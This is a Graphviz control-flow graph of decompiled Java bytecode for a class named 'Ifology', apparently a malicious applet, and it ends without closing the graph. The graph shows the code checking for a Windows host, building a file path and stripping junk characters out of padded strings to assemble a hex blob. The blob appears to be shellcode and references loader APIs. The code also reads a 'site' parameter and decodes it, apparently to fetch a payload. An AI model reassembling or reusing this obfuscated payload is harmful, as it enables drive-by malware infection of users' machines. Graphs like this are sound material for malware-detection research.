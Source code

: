 digraph "" {
    "r0 := @this: Ifology"
    "push 47"
    "r0 := @this: Ifology"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <Ifology: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <Ifology: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <Ifology: java.lang.String repeat(char,int)>"->"pop";
    "push \"ohhhs.nhhhahhhhhhhme\""
    "pop"->"push \"ohhhs.nhhhahhhhhhhme\"";
    "push \"h\""
    "push \"ohhhs.nhhhahhhhhhhme\""->"push \"h\"";
    "push \"\""
    "push \"h\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"wiXnX\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"wiXnX\"";
    "push \"X\""
    "push \"wiXnX\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <Ifology: java.lang.String repeat(char,int)>";
    "store.r r352"
    "staticinvoke <Ifology: java.lang.String repeat(char,int)>"->"store.r r352";
    "goto new java.lang.StringBuilder"
    "store.r r352"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"SSSSfiSSSle:/SSSS/\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"SSSSfiSSSle:/SSSS/\"";
    "push \"S\""
    "push \"SSSSfiSSSle:/SSSS/\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r352"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r352";
    "load.r r352"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wwZww%Z%Zwwww%wwZ%Zwww%wwwZw%w\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wwZww%Z%Zwwww%wwZ%Zwww%wwwZw%w\"";
    "push \"w\""
    "push \"wwZww%Z%Zwwww%wwZ%Zwww%wwwZw%w\""->"push \"w\"";
    "push \"w\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r352";
    "store.r r352"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"5@0@@@@5@@351@@@@525@65@@@@7559@@CE800@@@@@@000@@@@@00@0@@@@@5@@@@D8@@3@@@ED0@D@@3@@1C06@4@@@0@3@40@@@@@30@@@7@80C@@8@@B4@@@0@0@C8@@B@@@@70@@@1C@@@A@@@D8B4008EB0@@@@98B@@@40348D407@@@@@C8B@@@@40@@@@3@C@@@@5@@@6@@\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"5@0@@@@5@@351@@@@525@65@@@@7559@@CE800@@@@@@000@@@@@00@0@@@@@5@@@@D8@@3@@@ED0@D@@3@@1C06@4@@@0@3@40@@@@@30@@@7@80C@@8@@B4@@@0@0@C8@@B@@@@70@@@1C@@@A@@@D8B4008EB0@@@@98B@@@40348D407@@@@@C8B@@@@40@@@@3@C@@@@5@@@6@@\"";
    "push \"@\""
    "push \"5@0@@@@5@@351@@@@525@65@@@@7559@@CE800@@@@@@000@@@@@00@0@@@@@5@@@@D8@@3@@@ED0@D@@3@@1C06@4@@@0@3@40@@@@@30@@@7@80C@@8@@B4@@@0@0@C8@@B@@@@70@@@1C@@@A@@@D8B4008EB0@@@@98B@@@40348D407@@@@@C8B@@@@40@@@@3@C@@@@5@@@6@@\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"57PPBEP5EPPPPPP0PP1PP00PP0PPPP0PP0PPPPPPP1PPPPEEPPPBFP4E0P100000P1EPPPPFE8PPPDP60PP10000P5FPPPP5E8PPPPPP9PPEPPPA81PPC25PPPPE0PPP10P0PPPP0PPPP0PPPP5268800PPPP0000PPPPPPP0PPFF9PP5PPPP4PE01PP0PPP00PPPP089EAPPPPP8PPPP1CPPPP2PPP5E0PPPP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"57PPBEP5EPPPPPP0PP1PP00PP0PPPP0PP0PPPPPPP1PPPPEEPPPBFP4E0P100000P1EPPPPFE8PPPDP60PP10000P5FPPPP5E8PPPPPP9PPEPPPA81PPC25PPPPE0PPP10P0PPPP0PPPP0PPPP5268800PPPP0000PPPPPPP0PPFF9PP5PPPP4PE01PP0PPP00PPPP089EAPPPPP8PPPP1CPPPP2PPP5E0PPPP\"";
    "push \"P\""
    "push \"57PPBEP5EPPPPPP0PP1PP00PP0PPPP0PP0PPPPPPP1PPPPEEPPPBFP4E0P100000P1EPPPPFE8PPPDP60PP10000P5FPPPP5E8PPPPPP9PPEPPPA81PPC25PPPPE0PPP10P0PPPP0PPPP0PPPP5268800PPPP0000PPPPPPP0PPFF9PP5PPPP4PE01PP0PPP00PPPP089EAPPPPP8PPPP1CPPPP2PPP5E0PPPP\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \">1>>0>>>>00031>>>F>>>6>0>>>1>>>>C2>>8A9C>>3>>>5>63>>>020000>>>>>>>80>>>F>>>>B>0>>>>0>7>4>>>>0>>>6881C>>>>3>>2>4>>>>>>6EB>>>EEC6>>0>>43>>>>20>0>>89EA8>>>1C>2450>>>2>>>0>>>00052>>>FF9552>>0100>>>0>>>>0>>8>>9EA>>8>>>1>>C>2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \">1>>0>>>>00031>>>F>>>6>0>>>1>>>>C2>>8A9C>>3>>>5>63>>>020000>>>>>>>80>>>F>>>>B>0>>>>0>7>4>>>>0>>>6881C>>>>3>>2>4>>>>>>6EB>>>EEC6>>0>>43>>>>20>0>>89EA8>>>1C>2450>>>2>>>0>>>00052>>>FF9552>>0100>>>0>>>>0>>8>>9EA>>8>>>1>>C>2\"";
    "push \">\""
    "push \">1>>0>>>>00031>>>F>>>6>0>>>1>>>>C2>>8A9C>>3>>>5>63>>>020000>>>>>>>80>>>F>>>>B>0>>>>0>7>4>>>>0>>>6881C>>>>3>>2>4>>>>>>6EB>>>EEC6>>0>>43>>>>20>0>>89EA8>>>1C>2450>>>2>>>0>>>00052>>>FF9552>>0100>>>0>>>>0>>8>>9EA>>8>>>1>>C>2\""->"push \">\"";
    "push \">\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"500L200LLLL0LLLL0LLLL5LLLL250LLLFFLLLLL9LLLL5L5LL60L10000LL6A0LLLLL06LLLLLALLLL0089LLELLLLALLL81C25E0LLL10LLLLL0LLLLLLL00LLL5LLL28L9LLLLEA81CLL2LLLL780LLLL2000052LLLLL6LALLLL00LLLFFLLLD06A0LLLLLLL589LLLLLEALLLL81C25LLLELLLL0LLLL1L0L0LL0L\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"500L200LLLL0LLLL0LLLL5LLLL250LLLFFLLLLL9LLLL5L5LL60L10000LL6A0LLLLL06LLLLLALLLL0089LLELLLLALLL81C25E0LLL10LLLLL0LLLLLLL00LLL5LLL28L9LLLLEA81CLL2LLLL780LLLL2000052LLLLL6LALLLL00LLLFFLLLD06A0LLLLLLL589LLLLLEALLLL81C25LLLELLLL0LLLL1L0L0LL0L\"";
    "push \"L\""
    "push \"500L200LLLL0LLLL0LLLL5LLLL250LLLFFLLLLL9LLLL5L5LL60L10000LL6A0LLLLL06LLLLLALLLL0089LLELLLLALLL81C25E0LLL10LLLLL0LLLLLLL00LLL5LLL28L9LLLLEA81CLL2LLLL780LLLL2000052LLLLL6LALLLL00LLLFFLLLD06A0LLLLLLL589LLLLLEALLLL81C25LLLELLLL0LLLL1L0L0LL0L\""->"push \"L\"";
    "push \"L\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0VV52FVVVVFV95VVVV5A010VVVV00V0VVVV8VVV9VVEVA81CV25EV0100VV0VVV0V5VV2688VVVV0V0VV0VVV000V0VVFVVVF95VVVV4VVEV0V100VV0VVVVV089VVVEVA8VV1VVVVCVVV25E01VVV0VVV0V0VV031F601C28A9C3VVVV56VVVVEVVV02VVV00VVV00V80\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0VV52FVVVVFV95VVVV5A010VVVV00V0VVVV8VVV9VVEVA81CV25EV0100VV0VVV0V5VV2688VVVV0V0VV0VVV000V0VVFVVVF95VVVV4VVEV0V100VV0VVVVV089VVVEVA8VV1VVVVCVVV25E01VVV0VVV0V0VV031F601C28A9C3VVVV56VVVVEVVV02VVV00VVV00V80\"";
    "push \"V\""
    "push \"0VV52FVVVVFV95VVVV5A010VVVV00V0VVVV8VVV9VVEVA81CV25EV0100VV0VVV0V5VV2688VVVV0V0VV0VVV000V0VVFVVVF95VVVV4VVEV0V100VV0VVVVV089VVVEVA8VV1VVVVCVVV25E01VVV0VVV0V0VV031F601C28A9C3VVVV56VVVVEVVV02VVV00VVV00V80\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZZZZFBZZ0ZZ07ZZZ40Z68Z8ZZ1CZZZ32Z46EBZZZEECZZZZ604ZZ32008Z9EZAZZZ81CZZ245ZZZZZ02Z0ZZZZ0Z0052FF95Z520ZZZ1000ZZZ08ZZZZ9EZAZ81CZZ2ZZ500200ZZZ005ZZZZ25Z0FF955ZZZZ6010ZZZ0Z0ZZZ06ZZZZA006\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZZZZFBZZ0ZZ07ZZZ40Z68Z8ZZ1CZZZ32Z46EBZZZEECZZZZ604ZZ32008Z9EZAZZZ81CZZ245ZZZZZ02Z0ZZZZ0Z0052FF95Z520ZZZ1000ZZZ08ZZZZ9EZAZ81CZZ2ZZ500200ZZZ005ZZZZ25Z0FF955ZZZZ6010ZZZ0Z0ZZZ06ZZZZA006\"";
    "push \"Z\""
    "push \"ZZZZFBZZ0ZZ07ZZZ40Z68Z8ZZ1CZZZ32Z46EBZZZEECZZZZ604ZZ32008Z9EZAZZZ81CZZ245ZZZZZ02Z0ZZZZ0Z0052FF95Z520ZZZ1000ZZZ08ZZZZ9EZAZ81CZZ2ZZ500200ZZZ005ZZZZ25Z0FF955ZZZZ6010ZZZ0Z0ZZZ06ZZZZA006\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AIIIIII008I9EAIIII81IICIIIIII25EII01I00III0II05IIII2IIII89EA81IIIIIC2AIII6IIIIII0I20000526IIIIAIII0I0IFFDIIII0IIIII6IIA0II58IIIIIII9EIIIIA8I1IIIICIIIIII25E01III0000I52FIIIIIF95II5AII01III000II09D5IID5FIII5EIIIIII5IIIIA595B\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AIIIIII008I9EAIIII81IICIIIIII25EII01I00III0II05IIII2IIII89EA81IIIIIC2AIII6IIIIII0I20000526IIIIAIII0I0IFFDIIII0IIIII6IIA0II58IIIIIII9EIIIIA8I1IIIICIIIIII25E01III0000I52FIIIIIF95II5AII01III000II09D5IID5FIII5EIIIIII5IIIIA595B\"";
    "push \"I\""
    "push \"AIIIIII008I9EAIIII81IICIIIIII25EII01I00III0II05IIII2IIII89EA81IIIIIC2AIII6IIIIII0I20000526IIIIAIII0I0IFFDIIII0IIIII6IIA0II58IIIIIII9EIIIIA8I1IIIICIIIIII25E01III0000I52FIIIIIF95II5AII01III000II09D5IID5FIII5EIIIIII5IIIIA595B\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5E8CEE30E0000EEEE00EEE0EEEEE00EEEE0000E00EEEE0EEE0EEEE00E0000E00000EEE0EEE0047EE65EEEEEEE74E546EEEE5EEEE6D7EEEE0506EEE1746EEE84EE10EE04C6F616EEEEEE44EECEE6EEEE96EEEE2EEEE7EEEE2EEEEEE617E279EEE4EEE1EE004E7657EE4E5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5E8CEE30E0000EEEE00EEE0EEEEE00EEEE0000E00EEEE0EEE0EEEE00E0000E00000EEE0EEE0047EE65EEEEEEE74E546EEEE5EEEE6D7EEEE0506EEE1746EEE84EE10EE04C6F616EEEEEE44EECEE6EEEE96EEEE2EEEE7EEEE2EEEEEE617E279EEE4EEE1EE004E7657EE4E5\"";
    "push \"E\""
    "push \"5E8CEE30E0000EEEE00EEE0EEEEE00EEEE0000E00EEEE0EEE0EEEE00E0000E00000EEE0EEE0047EE65EEEEEEE74E546EEEE5EEEE6D7EEEE0506EEE1746EEE84EE10EE04C6F616EEEEEE44EECEE6EEEE96EEEE2EEEE7EEEE2EEEEEE617E279EEE4EEE1EE004E7657EE4E5\""->"push \"E\"";
    "push \"E\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0O7O26OOF6OOO3OOOOOO41646472657O373005OO7OOOO69OOO6OE4578O6OOO56OO30OOOO0BB89OOFOOO289FOO73O0OOOOC0AE7OO5FDOO29F789OOOOF93OO1C0OOBEOOOOOOO3C0OO00OOOOO00003B51OOOB020OO0O00OOOO6OOO6O\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0O7O26OOF6OOO3OOOOOO41646472657O373005OO7OOOO69OOO6OE4578O6OOO56OO30OOOO0BB89OOFOOO289FOO73O0OOOOC0AE7OO5FDOO29F789OOOOF93OO1C0OOBEOOOOOOO3C0OO00OOOOO00003B51OOOB020OO0O00OOOO6OOO6O\"";
    "push \"O\""
    "push \"0O7O26OOF6OOO3OOOOOO41646472657O373005OO7OOOO69OOO6OE4578O6OOO56OO30OOOO0BB89OOFOOO289FOO73O0OOOOC0AE7OO5FDOO29F789OOOOF93OO1C0OOBEOOOOOOO3C0OO00OOOOO00003B51OOOB020OO0O00OOOO6OOO6O\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"HAHDHHHHH0385HHH1HBHHHH02HHHHHHH000HHHH08HBH70HHHH7HHHH883HHHHC61HHHC0HH3B51HHHHBHH020HHH0HHH00HHHHHHH8HHDBD1F0200HHH0HHHH0HHHAD03851HHHHHHB020HHH0HH0HH0ABHAHHHD0HH3HHH8HHH5HHH1HHBHHH02HHHH0000H5HH0HABAD03HH8HHH51HHBHHHH020HHH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"HAHDHHHHH0385HHH1HBHHHH02HHHHHHH000HHHH08HBH70HHHH7HHHH883HHHHC61HHHC0HH3B51HHHHBHH020HHH0HHH00HHHHHHH8HHDBD1F0200HHH0HHHH0HHHAD03851HHHHHHB020HHH0HH0HH0ABHAHHHD0HH3HHH8HHH5HHH1HHBHHH02HHHH0000H5HH0HABAD03HH8HHH51HHBHHHH020HHH\"";
    "push \"H\""
    "push \"HAHDHHHHH0385HHH1HBHHHH02HHHHHHH000HHHH08HBH70HHHH7HHHH883HHHHC61HHHC0HH3B51HHHHBHH020HHH0HHH00HHHHHHH8HHDBD1F0200HHH0HHHH0HHHAD03851HHHHHHB020HHH0HH0HH0ABHAHHHD0HH3HHH8HHH5HHH1HHBHHH02HHHH0000H5HH0HABAD03HH8HHH51HHBHHHH020HHH\""->"push \"H\"";
    "push \"H\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ii000AiiiiB5iiiiiiiEiii3ii1iiiDiiiiBiiiiiiiADiiii56i0ii3ii85iii1Biii02i00iii0ii08i9C689iiD7ii51iiiiiiiiFCF3A65i974iiii04i5iiE43EiiBE95iiiiE9ii3iiDi1Eii0i03ii8iii5ii27iii0iii20i0iii0iiiiii031Fiii69iiii666iiAiDiiiiiCi1E0iiii0203ii\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ii000AiiiiB5iiiiiiiEiii3ii1iiiDiiiiBiiiiiiiADiiii56i0ii3ii85iii1Biii02i00iii0ii08i9C689iiD7ii51iiiiiiiiFCF3A65i974iiii04i5iiE43EiiBE95iiiiE9ii3iiDi1Eii0i03ii8iii5ii27iii0iii20i0iii0iiiiii031Fiii69iiii666iiAiDiiiiiCi1E0iiii0203ii\"";
    "push \"i\""
    "push \"ii000AiiiiB5iiiiiiiEiii3ii1iiiDiiiiBiiiiiiiADiiii56i0ii3ii85iii1Biii02i00iii0ii08i9C689iiD7ii51iiiiiiiiFCF3A65i974iiii04i5iiE43EiiBE95iiiiE9ii3iiDi1Eii0i03ii8iii5ii27iii0iii20i0iii0iiiiii031Fiii69iiii666iiAiDiiiiiCi1E0iiii0203ii\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"85;;;;1;;;F;;02000;08;;;;9C6AD;;0385;;;;1B02;;;;0;;00;;;0;;;;C3;;;EB10;;;00;;;00000000;;;;0;;;0;00;;;;;0;;;;0;00;;;0;;;00000;;;;;00000000;;89;;;;851B0;;;20000;;565;;;;;7E8;;;;58F;FFF;;F;;F5F;;5;;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"85;;;;1;;;F;;02000;08;;;;9C6AD;;0385;;;;1B02;;;;0;;00;;;0;;;;C3;;;EB10;;;00;;;00000000;;;;0;;;0;00;;;;;0;;;;0;00;;;0;;;00000;;;;;00000000;;89;;;;851B0;;;20000;;565;;;;;7E8;;;;58F;FFF;;F;;F5F;;5;;\"";
    "push \";\""
    "push \"85;;;;1;;;F;;02000;08;;;;9C6AD;;0385;;;;1B02;;;;0;;00;;;0;;;;C3;;;EB10;;;00;;;00000000;;;;0;;;0;00;;;;;0;;;;0;00;;;0;;;00000;;;;;00000000;;89;;;;851B0;;;20000;;565;;;;;7E8;;;;58F;FFF;;F;;F5F;;5;;\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EhhhhhAB01hhhhChhhhE8hhh0hhhh3EhhhhBB74hh0hh2hhhEBEhhhhDhhhhChhh35hhhh552hh4hhC4hhhD4hF4Eh2Ehhh444hChh4hhhChhh0055524hhC44hhh6hhFhhh7hhhhh76Ehhh6hhhhChh6hhhhhF6h1h64hhh5h46F46h69hh6Ch6hhh5h4100hhhh7hhhh0hhhhh6hh4667hh570hhh642hhhhEhhhh6hhhhhhh5hhh7hhh86500hhh6hhhh372h6hh173hhhh6hhhh82E7hhhh06hhh87h000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EhhhhhAB01hhhhChhhhE8hhh0hhhh3EhhhhBB74hh0hh2hhhEBEhhhhDhhhhChhh35hhhh552hh4hhC4hhhD4hF4Eh2Ehhh444hChh4hhhChhh0055524hhC44hhh6hhFhhh7hhhhh76Ehhh6hhhhChh6hhhhhF6h1h64hhh5h46F46h69hh6Ch6hhh5h4100hhhh7hhhh0hhhhh6hh4667hh570hhh642hhhhEhhhh6hhhhhhh5hhh7hhh86500hhh6hhhh372h6hh173hhhh6hhhh82E7hhhh06hhh87h000\"";
    "push \"EhhhhhAB01hhhhChhhhE8hhh0hhhh3EhhhhBB74hh0hh2hhhEBEhhhhDhhhhChhh35hhhh552hh4hhC4hhhD4hF4Eh2Ehhh444hChh4hhhChhh0055524hhC44hhh6hhFhhh7hhhhh76Ehhh6hhhhChh6hhhhhF6h1h64hhh5h46F46h69hh6Ch6hhh5h4100hhhh7hhhh0hhhhh6hh4667hh570hhh642hhhhEhhhh6hhhhhhh5hhh7hhh86500hhh6hhhh372h6hh173hhhh6hhhh82E7hhhh06hhh87h000\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r69"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r69";
    "load.r r0"
    "store.r r69"->"load.r r0";
    "push \"OOOOsiOOOOteO\""
    "load.r r0"->"push \"OOOOsiOOOOteO\"";
    "push \"OOOOsiOOOOteO\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Ifology: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Ifology: java.lang.String getParameter(java.lang.String)>";
    "push \"vvvv0vvv0vv9vvvv0\""
    "virtualinvoke <Ifology: java.lang.String getParameter(java.lang.String)>"->"push \"vvvv0vvv0vv9vvvv0\"";
    "push \"v\""
    "push \"vvvv0vvv0vv9vvvv0\""->"push \"v\"";
    "push \"v\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r96"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r96";
    "staticinvoke <Brealizer: java.lang.String decodeString(java.lang.String)>"
    "store.r r96"->"staticinvoke <Brealizer: java.lang.String decodeString(java.lang.String)>";
    "store.r r432"
    "staticinvoke <Brealizer: java.lang.String decodeString(java.lang.String)>"->"store.r r432";
    "store.r r432"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r69"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r69";
    "load.r r69"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r69";
    "store.r r69"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r69";
    "load.r r69"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r432"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r432";
    "load.r r432"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
